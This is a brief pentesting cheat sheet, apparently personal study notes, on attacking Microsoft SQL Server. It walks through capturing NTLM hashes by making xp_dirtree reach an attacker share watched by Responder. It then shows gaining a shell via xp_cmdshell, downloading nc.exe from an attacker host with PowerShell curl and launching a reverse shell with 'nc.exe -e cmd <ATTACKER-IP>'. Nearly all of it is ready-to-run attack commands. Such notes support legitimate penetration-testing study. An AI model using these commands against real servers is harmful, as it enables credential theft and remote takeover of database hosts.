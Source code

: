 # Microsoft SQL Server
---

### Capturing NTLM hashes
**Pre-requesties**
- Having access to the server.
- Downloading -> [**Responder.py**](https://github.com/SpiderLabs/Responder) (Intsalled by default in Kali)

 1. Running Responder.
```bash
sudo responder -I tun0 
```
 2. Starting an HTTPServer.
```bash
sudo python3 -m http.server 80
```
 3. Listing a fake share to trigger the protocol.
```bash
xp_dirtree "\\<ATTACKER-IP>\meow"
```
 4. Check Responder and take the hash and decrypt it.
### Gaining a shell
1. Log in using impacket-mssqlclient
```bash
impacket-mssqlclient <DOMAIN>/<USER>:<PASSWORD>@<IP>
```
2. You can execute commands on MSSQL server using:
```bash
EXEC xp_cmdshell '<COMMAND>'
```
3. Then you can upload a `nc.exe`:
```bash
EXEC xp_cmdshell 'powershell -c curl http://<ATTACKER-IP>/nc.exe -o <PATH>'
```
4. Trigger it:
```bash
EXEC xp_cmdshell '<PATH>/nc.exe -e cmd <ATTACKER-IP> <PORT>'
```
# Further reading
- Four Parts:  https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/
- https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server